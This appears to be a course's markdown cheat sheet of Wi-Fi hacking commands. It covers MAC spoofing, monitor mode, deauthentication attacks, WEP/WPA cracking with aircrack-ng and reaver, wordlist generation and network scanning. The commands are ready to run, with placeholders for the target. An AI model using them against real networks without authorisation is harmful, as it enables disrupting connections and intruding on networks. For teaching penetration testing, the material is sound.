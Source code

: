 # Learn Ethical Hacking From Scratch with Zaid Sabih
Here are the commands that will be used in the course
## Network
### Change MAC Address
* Get the interface down
  * `ifconfig wlan0 down`
* Use macchanger
  * `macchanger --random wlan0`
* Get the interface up
  * `ifconfig wlan0 up`
### Change Wireless Card Mode
#### Method 1
* Start Monitor Mode
  * `airmon-ng start wlan0`
* Stop Monitor Mode
  * `airmon-ng stop wlan0mon`
#### Method 2
* Get the interface down
  * `ifconfig wlan0 down`
* Change Mode
  * `ifconfig wlan0 mode monitor`
* Get the interface up
  * `ifconfig wlan0 up`
#### Method 3
* Get the interface down
  * `ifconfig wlan0 down`
* Kill Process
  * `airmon-ng check kill`
* Start Monitor Mode
  * `airmon-ng start wlan0`
* Restart Network Manager
  * `service NetworkManager restart`
### Packet Sniffing
* Start Sniffing
  * `airodump-ng wlan0mon`
* Sniff In A Specific Network
  * `airodump-ng --channel <network channel> --bssid <network bssid> --write <file-name> wlan0mon`
* Deauth Attacks
  * `aireplay-ng --deauth <num-of-packets> -a <network bssid> -c <target bssid> wlan0mon`
### Crack WEP
#### Busy Network
* Start airodump-ng in the target
* Crack
  * `aircrack-ng <network-file>`
#### NOT Busy Network
* Fake Auth
  * `aireplay-ng --fakeauth 0 -a <network bssid> -h <your bssid || MAC> wlan0mon`
* Packet Injection
  * `aireplay-ng --arpreplay -b <network bssid> -h <your bssid || MAC> wlan0mon`
### Crack WPA/WPA2
#### With WPS
* Check if the network has WPS
  * `wash -i wlan0mon`
* Attack
  * `reaver -b <network bssid> -c <network channel> -i wlan0mon`
#### Without WPS
* Start airodump-ng in the target
* Deauth a client to capture the WPA Hanshake
* Crack the Key
  * `aircrack-ng <handshake-file> -w <word-list>`
#### Create a Wordlist
`crunch <min-length> <max-length> <characters> -o <file-name> -t <pattern>`
### Information Gathering
After authenticating to a network you gather information about it.
* Find your internal IP
  * `ifconfig wlan0`
* Using Netdiscover
  * `netdiscover -i wlan0 -r <network internal IP>.1/24`
* Using Autoscan
  * download [Autoscan](http://autoscan-network.com/download)
  * add 32bit compatibility `dpkg --add-architecture i386`
  * update `apt-get update`
  * download and install library `apt-get install libc6:i386`
  * install Autoscan in the terminal running `./<downaloaded file>`
  * run Autoscan
* Using Nmap
  * run `zenmap`
  * in Target put `<network internal IP>.1/24`
  * play arround with Profile
